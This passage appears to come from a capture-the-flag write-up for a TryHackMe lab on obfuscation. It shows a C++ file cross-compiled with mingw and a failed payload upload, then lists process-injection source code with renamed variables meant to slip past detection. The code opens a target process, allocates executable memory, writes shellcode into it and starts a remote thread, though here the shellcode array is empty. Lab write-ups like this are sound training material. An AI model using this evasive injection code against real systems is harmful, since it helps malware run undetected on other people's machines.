 ```console

Options starting with -g, -f, -m, -O, -W, or --param are automatically
 passed on to the various sub-processes invoked by x86_64-w64-mingw32-g++.  In order to pass
 other options on to these processes the -W<letter> options must be used.

For bug reporting instructions, please see:
<https://gcc.gnu.org/bugs/>.
```
{: .nolineno }

We can try with the general usage form and adding the -o for setting up the output file name as challenge-8.exe :

```console
root@ip-10-10-107-112:~/Desktop# x86_64-w64-mingw32-g++ challenge-8.cpp -o challenge-8.exe
root@ip-10-10-107-112:~/Desktop# ls
'Additional Tools'   challenge-8.cpp   challenge-8.execlear   reverse.exe
 chal2.py            challenge-8.exe   mozo-made-15.desktop   Tools
```
{: .nolineno }

When uploading this to the webserver the payload failed :

![Uploading payload](/images/thm/obfuscationprinciples/obfuscationprinciples_7.png)
_Uploading payload_

![Uploading payload](/images/thm/obfuscationprinciples/obfuscationprinciples_8.png)
_Uploading payload_

We can try to redo the previous step after obfuscate the cpp file changing all variables names :

```console
root@ip-10-10-107-112:~/Desktop# cat challenge-8.cpp 
#include "windows.h"
using namespace std;

int main(int argc, char* argv[])
{
	unsigned char slce[] = "";

	HANDLE pshe;
	HANDLE retd;
	PVOID rebr;

	pshe = OpenProcess(PROCESS_ALL_ACCESS, FALSE, DWORD(atoi(argv[1])));
	rebr = VirtualAllocEx(pshe, NULL, sizeof slce, (MEM_RESERVE | MEM_COMMIT), PAGE_EXECUTE_READWRITE);
	WriteProcessMemory(pshe, rebr, slce, sizeof slce, NULL);
	retd = CreateRemoteThread(pshe, NULL, 0, (LPTHREAD_START_ROUTINE)rebr, NULL, 0, NULL);
	CloseHandle(pshe);

	return 0;
```